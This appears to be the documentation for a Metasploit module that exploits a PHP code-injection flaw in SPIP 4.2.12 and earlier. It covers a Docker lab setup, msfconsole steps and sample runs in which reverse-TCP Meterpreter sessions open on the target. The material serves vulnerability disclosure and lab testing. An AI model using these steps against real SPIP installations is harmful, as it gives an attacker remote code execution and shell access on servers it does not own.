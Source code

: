 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP versions up to and including 4.2.12.
The vulnerability occurs in SPIP’s templating system where it incorrectly handles user-supplied input, allowing an attacker
to inject and execute arbitrary PHP code.
This can be achieved by crafting a payload that manipulates the templating data processed by the `echappe_retour()` function,
which invokes `traitements_previsu_php_modeles_eval()`, containing an `eval()` call.

To replicate a vulnerable environment for testing:

1. Install SPIP using the provided Docker Compose configuration.
2. Use the image `ipeos/spip:4.2.12` to ensure the environment is vulnerable.
3. Verify that the SPIP instance is accessible on the local network.

### Docker Setup

Use the following Docker Compose file to set up the environment:

```yaml
version: '3.8'

services:
  db:
    image: mariadb:10.5
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=MysqlRootPassword
      - MYSQL_DATABASE=spip
      - MYSQL_USER=spip
      - MYSQL_PASSWORD=spip
    networks:
      - spip-network

  app:
    image: ipeos/spip:4.2.12
    restart: always
    depends_on:
      - db
    environment:
      - SPIP_AUTO_INSTALL=1
      - SPIP_DB_SERVER=db
      - SPIP_DB_LOGIN=spip
      - SPIP_DB_PASS=spip
      - SPIP_DB_NAME=spip
      - SPIP_SITE_ADDRESS=http://localhost:8880
    ports:
      - 8880:80
    networks:
      - spip-network

networks:
  spip-network:
    driver: bridge
```

## Verification Steps

1. Set up a SPIP instance with the specified Docker environment.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_porte_plume_previsu_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

No additional options are required for basic exploitation.

## Scenarios

### Successful Exploitation Against Local SPIP 4.2.12

**Setup**:

- Local SPIP instance with version 4.2.12.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/spip_porte_plume_previsu_rce
```
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (TARGETURI, SSL, etc.).
5. Launch the exploit:
```
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/spip_porte_plume_previsu_rce) > exploit rhosts=127.0.0.1 rport=8880 AutoCheck=false

[*] Started reverse TCP handler on 192.168.1.36:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Sending exploit payload to the target...
[*] Sending stage (39927 bytes) to 172.23.0.3
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.23.0.3:35902) at 2024-08-10 21:56:50 +0200

meterpreter > sysinfo
Computer    : 5d309f4bdfbe
OS          : Linux 5d309f4bdfbe 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > 
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/spip_porte_plume_previsu_rce) > exploit rhosts=127.0.0.1 rport=8880 AutoCheck=false

[*] Started reverse TCP handler on 192.168.1.36:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Preparing to send exploit payload to the target...
[*] Sending exploit payload to the target...
[*] Sending stage (3045380 bytes) to 172.23.0.3
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.23.0.3:38992) at 2024-08-10 22:10:19 +0200

meterpreter > sysinfo 
Computer     : 172.23.0.3
OS           : Debian 11.9 (Linux 5.15.0-113-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running in the Docker environment for the exploit to work as expected.
